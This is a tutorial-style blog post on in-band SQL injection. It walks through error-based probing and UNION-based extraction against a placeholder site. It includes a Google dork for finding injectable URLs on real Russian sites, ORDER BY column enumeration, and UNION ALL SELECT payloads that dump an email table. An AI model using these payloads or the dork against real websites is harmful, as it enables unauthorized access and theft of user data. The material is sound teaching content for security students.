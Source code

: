 ```yaml
---
title: In-band SQL injections
layout: post
date: 2018-01-11
category: [it, security, english]
description: The classic one
permalink: /blog/Inband-SQLI/
comments: true
tags :
- SQLI
- offsec
- english
- infosec

---
```





First, you have to understand the different types of SQLi, [here][1]. I will speak here about In-band Injection, the classic one. divided into 2 types:

- Error based SQLi
- UNION based SQLi

# Error Based SQLI

## Goal  
  

Gathering database structure information by Displaying SQL Errors on the target website. In some cases, you can enumerate the entire database with those.

## Finding a weak URL 

Using Google Dorks. Yes, google is helping you finding weak urls.
 
 → &nbsp; `inurl:"product.php?id=" site:.ru`

Here you are asking Google to list Russian site with `product.php?id=` in the URL. But Why? Because we want to find a page which is directly talking to the database. In most of the case you want to search for those patterns: `*.php?parameter=n`

## how do I know this URL is weak to SQLi? 

You have to put a `'` or `%27` just after the parameter's number and press enter: `http[:]//w34ksite.com/product.php?id=1'`. If a SQL Error appears there is some probability that this website is injectable.

_________________________________________________________

# UNION Based SQLI

## Goal  

Leverages the UNION SQL operator to combine the results of two or more SELECT statements into a single result.

*the following block is part of a material I wrote for infoSec students. (Offensive security class)*


## first step

Find an URL that sends SQL queries, like this one: `http://w34ksite.com/products.php?category=1` . This URL list products, regrouped in the category named 1. Try to remember that an URL ending with `* ? * = *` will, in most cases, communicate with a SQL Database, we want to exploit this. 

## The second step

Translate the ```products.php?category=1``` part of URL into a SQL query. In this scenario (and in a lot of website in production) this piece of URL is a disguised SQL query: 

→ &nbsp; `products.php?category=1` = `SELECT * FROM products WHERE category=1`

## The third step

Can we inject the category parameter? Let's try to sort the products list by adding `ORDER BY n`:

→ &nbsp; ```http://w34ksite.com/products.php?category=1 ORDER BY 1``` Nothing change.

→ &nbsp; ```http://w34ksite.com/products.php?category=1 ORDER BY 2``` The products order have changed! The *n* number in `ORDER BY n` indicate from which table's column number you are sorting the output (in this case the **second column of the table products**). So wait a minute, what happens if I input a number that exceeds the maximum number of the table? Let's try out.

→ &nbsp; ```http://w34ksite.com/products.php?category=1 ORDER BY 3``` Order changes again.

→ &nbsp; ```http://w34ksite.com/products.php?category=1 ORDER BY 4``` Blank page! We can deduce that the product's table has **3 column**. This info is crucial for using the SQL *UNION ALL* operator.

## The fourth step

Let's plan the attack for capturing the flag. So, for instance, let's assume you can fetch the flag by dumping the email addresses of the w34ksite DB.    

Of course, the email entries are not in the product table. They should be elsewhere... You can guess table's name and more when *SQL error appear directly on the web page*, but this time, we will try to rely on the UNION leverage attack.  

So let's assume the email's table is named *email*, because we know this is the CMS default email's table name.

→ &nbsp; `SELECT * FROM email` = `http://w34ksite.com/email.php` ?  

Of course not. Who will be crazy enough to create a PHP page that lists the database's email? Why not password.php?

Don't forget that ```products.php?category=1``` is our key to communicate with the database and inject things. This key open the database door, the general idea is to use this *key* for displaying the content of the email table.  

We will achieve that by displaying the products table contents (products.php?category=1) **and** the email table contents. Using the *[UNION ALL][2]* operator. This operator is quite useful, you can merge another SQL request by using it.  

Let's translate again the key URL into a SQL query:

→ &nbsp; `products.php?category=1` = `SELECT * FROM products WHERE category=1` 

Let's add a new query by using the UNION ALL operator:

→ &nbsp; `SELECT * FROM products WHERE category=1` AND `UNION ALL SELECT *, NULL, NULL FROM email`

Let's merge the key URL and the new query (Which is actually an UNION based SQL injection attack trying to diplay the email table.) We should have something like this :

`http://w34ksite.com/products.php?category=1 UNION ALL SELECT *, NULL, NULL FROM email`

##  * , NULL, NULL ?

- ```NULL```: Fake an empty column. 
- ```,``` : Separate a column from another
- ```*``` : display entries of this column

Remember the ```http://w34ksite.com/products.php?category=1 ORDER BY 4``` which has return a blank page? We get a very valuable information: the number of **column** the product's table possess, the number of column is 3. When using the *UNION ALL* operator, the table's column number has to be the same for both queries. For instance if the products table possessed 5 columns, the UNION ALL attack would be something like this `UNION ALL SELECT *, NULL, NULL, NULL, NULL FROM email`

If nothing happens, try to move the ```*``` around like this:

→ &nbsp; ```http://w34ksite.com/products.php?category=1 UNION ALL SELECT *, NULL, NULL FROM email```

→ &nbsp; ```http://w34ksite.com/products.php?category=1 UNION ALL SELECT NULL, *, NULL FROM email```

→ &nbsp; ```http://w34ksite.com/products.php?category=1 UNION ALL SELECT NULL, NULL, * FROM email```

[2]: https://www.techonthenet.com/sql/union_all.php

[1]: https://www.acunetix.com/websitesecurity/sql-injection2/